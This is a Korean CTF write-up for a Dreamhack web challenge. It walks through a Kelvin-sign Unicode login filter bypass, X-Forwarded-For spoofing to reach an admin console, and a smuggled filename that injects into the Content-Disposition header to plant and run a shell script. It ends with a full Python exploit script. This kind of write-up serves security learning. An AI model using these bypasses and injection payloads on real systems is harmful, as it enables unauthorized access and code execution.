

# 1. 웹페이지

웹페이지에 접속해보면 오른쪽 상단에 로그인 기능과 Admin Console 기능이 있는 것을 알 수 있다.


Admin Console 버튼을 클릭해보면, 접근이 금지되어 있는 것을 확인할 수 있다.


로그인 기능이 존재하지만 계정이 존재하지 않고, 회원가입이 불가능하여 로그인은 불가하였다. 또한, 에러 메시지를 통해 특수문자 필터링이 존재하는 것을 확인하였다.


# 2. 취약점 분석


login.html 소스코드를 분석해보면, 소스코드 내에 ID와 패스워드가 하드코딩 되어있는 것을 알 수 있다. 하지만 제공된 소스코드에서는 감춰져 있으므로 웹페이지에 접근하여 ID와 패스워드를 확인하였다.


알아낸 ID와 패스워드를 사용하여 로그인을 시도하였지만 로그인에 실패하였다.


소스코드를 확인해보니 하드코딩된 계정으로 로그인이 불가하도록 필터링 로직이 구현되어있었다.


필터링을 우회하기 위해 방법을 조사한 결과, 다음의 내용을 인터넷에서 찾을 수 있었다.

https://gosecure.github.io/presentations/2020_02_28_confoo/unicode_vulnerabilities_that_could_bite_you.pdf

인증을 처리하는 부분의 소스코드를 좀 더 살펴보면 ID와 패스워드를 입력받고, 필터링을 통과하면 ID 값을 인자로 하여 ToLower() 함수를 호출하고, 그 값을 사용하여 DB에서 계정을 조회한다.


그런데 대문자 K가 아니면서 ToLower() 함수를 거치면 소문자 k로 변환되는 문자가 존재한다. 그 문자는 켈빈 기호(KELVIN SIGN)이다.

checkBannedKeyword 함수와 인증을 처리하는 부분을 같이 살펴보면, 먼저 checkBannedKeyword 함수의 인자인 user 값을 ToUpper 함수를 사용하여 대문자로 변환하여 검증하고, 인증을 처리하는 부분에서는 이 함수를 거친 후 ID 값을 ToLower 함수를 사용하여 소문자로 변환한 후 DB에서 조회한다.

따라서 우리가 알아낸 ID인 kimgildong123 중 k 값을 켈빈 기호로 바꿔주면 ToUpper 함수를 거쳐도 KIMGILDONG123 이 아니게 되어 필터링 로직을 우회할 수 있게 되고, ToLower 함수를 거치면 kimgildong123이 되어 이 값을 사용하여 DB에서 조회하므로 필터링을 우회하고 알아낸 계정 정보로 로그인이 가능한 것이다.

계정 정보를 다음과 같이 주어 로그인을 시도하였다.

```
ID : \u212Aimgildong123
PW : 0p1q9o2w8i3e
```


로그인에 성공하였으며 다시 Admin Console에 접근을 시도하였다.




하지만 "External Access is Not Allowed" 에러 메시지가 출력되며 접근이 불가하였다. 내부에서만 접근할 수 있는 것으로 보여 소스코드를 확인해보니 IP를 검증하는 코드가 존재하였다.


ClientIP() 함수로 검증하는 경우, 접근할 때 X-Forwarded-For 헤더 값을 추가하여 검증하는 코드를 우회할 수 있었다.


Admin Console 접근에 성공하였지만, 바로 FLAG를 얻을 수 있는 것은 아니었다. File Upload, Validate File, Health Check 기능이 존재하였는데, 이를 이용하여 어떻게 FLAG를 획득할 수 있는지 살펴보았다.


먼저 File Upload 기능을 소스코드에서 살펴보면 확장자 필터링이 존재하기 때문에 .txt 확장자 파일 이외에는 업로드가 불가능하다.

다음으로 Validate File 기능의 소스코드를 살펴보면 중간에 bot.DownloadFile 함수를 호출하는 것을 알 수 있다.


## bot.DownloadFIle

```java
func DownloadFile(url, saveDir string) error {
…….

    filename := ""
    cd := resp.Header.Get("Content-Disposition") // 설명 1

    pattern := `filename="([^"]+)"`
    r := regexp.MustCompile(pattern)
    match := r.FindStringSubmatch(cd)
    filename = match[1] // 설명 1 끝

    filepath := path.Join(saveDir, filename) // 설명 2

    out, err := os.Create(filepath) // 설명 3
    if err != nil {
        return fmt.Errorf("error creating file: %v", err)
    }
    defer out.Close()

    _, err = io.Copy(out, resp.Body) // 설명 3 끝
    if err != nil {
        return fmt.Errorf("error writing file: %v", err)
    }
    return nil
}
```

취약점이 발생하는 부분을 설명하기 위해 먼저 bot.DownloadFile 함수의 기능을 간단하게 알아봐야 한다.
먼저 응답 헤더 중 Content-Disposition 값을 가져와서 정규식을 통해 가져온 헤더 내용 중 filename="value" 의 value에 해당하는 값을 추출하여 filename 변수에 저장한다(설명 1). 그리고 DownloadFile 함수의 두번째 인자인 saveDir에 filename 변수에 저장된 문자열을 합쳐 filepath 변수에 저장한다(설명 2). 그리고 os.Create 함수를 filepath 값을 인자로 주어 호출하여 파일을 생성하고, io.Copy 함수를 사용하여 응답 값의 Body 부분, 즉 파일의 내용을 생성한 파일에 복사한다(설명 3).

마지막으로 Health Check 기능을 살펴보면 req.Target 값을 인자로 하여 bot.Healthcheck 함수를 호출한다.


## bot.Healthcheck

```java
func Healthcheck(target string) string {
    matched, _ := regexp.MatchString("^[a-zA-Z0-9]+$", target)
    if !matched {
        return "invalid target"
    }
    cmd := exec.Command("sh", "/app/bot/jobs/"+target+".sh")
    output, _ := cmd.CombinedOutput()
    return filter(string(output))

}
```

bot.Healthcheck에서는 인자로 받는 target 값을 포함한 문자열을 사용하여 sh 명령을 실행시킨다. 하지만 정규식을 사용하여 특수문자를 필터링하기 때문에 다른 디렉터리의 파일을 실행시킬 수는 없다.

# 3. 공격 과정

1. File Upload 기능을 사용하여 필터링을 우회하고 쉘 스크립트 파일을 업로드한다.

2. Validate File 기능을 사용하여 Health Check 기능에서 실행시키기 위한 쉘 스크립트가 저장된 디렉터리인 /app/bot/jobs 디렉터리에 쉘 스크립트 파일을 생성한다.

3. Health Check 기능을 사용하여 1. 에서 업로드한 쉘 스크립트를 실행시켜 FLAG를 획득한다.

## 과정 1

FLAG 파일 내용을 읽어서 /app/uploads/client 디렉터리의 test.txt 파일에 FLAG 파일의 내용을 쓰는 생성하는 내용의 쉘 스크립트를 업로드한다. 파일 이름은 malicious.sh"dummy=.txt 으로 한다.

#### 쉘 스크립트 코드

```sh
#!/bin/bash

# 읽을 파일
SOURCE_FILE="/app/FLAG"

# 생성할 파일
TARGET_FILE="/app/uploads/client/test.txt"

ls -l "$SOURCE_FILE"

# 파일 존재 확인 및 처리
if [ -f "$SOURCE_FILE" ]; then
    cat "$SOURCE_FILE" > "$TARGET_FILE"
    echo "파일 '$TARGET_FILE'이(가) 성공적으로 생성되었습니다."
else
    echo "오류: 파일 '$SOURCE_FILE'을(를) 찾을 수 없습니다."
fi
```

## 과정 2

Validate File 기능을 실행시킨다. 기능 실행 시 전달되는 path 파라미터 값은 malicious.sh\";dummy=.txt 로 한다.

이렇게 파라미터 값이 전달되면 Validate File 기능이 실행되는 과정에서 bot.DownloadFile 함수를 호출하게 되고, /app/bot/jobs 디렉터리에 업로드한 쉘 스크립트 파일이 생성된다. Validate File에서 bot.DownloadFile 함수는 다음과 같은 형태로 호출된다.

```
bot.DownloadFile("http://localhost:8000/uploads/client/malicious.sh\";dummy=.txt"), "/app/bot/jobs/")
```

이렇게 호출되면 업로드한 파일에 요청을 보내고 응답 값의 body 내용을 파일 내용으로 쓴 후, Content-Disposition 헤더의 filename="" 에서 큰 따옴표 내부의 문자열을 파일 이름으로 해서 /app/bot/jobs/ 디렉터리에  파일이 생성되는데, malicious.sh이 생성되는 이유는 우리가 업로드한 파일에 요청을 보냈을 때, Content-Disposition 헤더의 내용은 다음과 같을 것이기 때문이다.

```
Content-Disposition: filename="malicious.sh";dummy=.txt"
```

## 과정 3

Health Check 기능을 사용하여 업로드한 malicious.sh 를 실행한다. 입력 값은 malicious 이다. 쉘 스크립트가 정상적으로 실행되었다면 다음과 같은 메시지를 확인할 수 있다.


이제 파일이 생성되었으므로 /uploads/client/test.txt 파일에 접근한다. 그러면 test.txt 파일이 다운로드되고, FLAG 값을 확인할 수 있다.


## 익스플로잇 코드

```python
import requests

URL = "http://host1.dreamhack.games:20299"

login = {"username" : "\u212Aimgildong123","password" : "0p1q9o2w8i3e"}

headers = {"X-Forwarded-For" : "127.0.0.1"}

validate_param = {"path" : "malicious.sh\";dummy=.txt"}

target = {"target" : "malicious"}

session = requests.Session()

# 0. login

session.post(f"{URL}/auth/login",json=login)

# 1. Upload File

with open('./malicious.sh";dummy=.txt','rb') as f: # 리눅스에서만 가능 (Windows에서는 파일 이름에 " 포함 불가)
    upload = {'file' : f}
    res = session.post(f"{URL}/admin/upload",headers=headers,files=upload)

# 2. Validate File

validate_req = session.post(f"{URL}/admin/validate",headers=headers,json=validate_param)

# 3. Health Check

healthcheck_req = session.post(f"{URL}/admin/healthcheck",headers=headers,json=target)

# 4. get FLAG

flag = session.get(f"{URL}/uploads/client/test.txt").text

print("FLAG : " + flag)
```

## 4. 참고

- https://gosecure.github.io/presentations/2020_02_28_confoo/unicode_vulnerabilities_that_could_bite_you.pdf
 
- https://developer.mozilla.org/ko/docs/Web/HTTP/Headers/X-Forwarded-For
 
- https://github.com/gin-gonic/gin/issues/3555


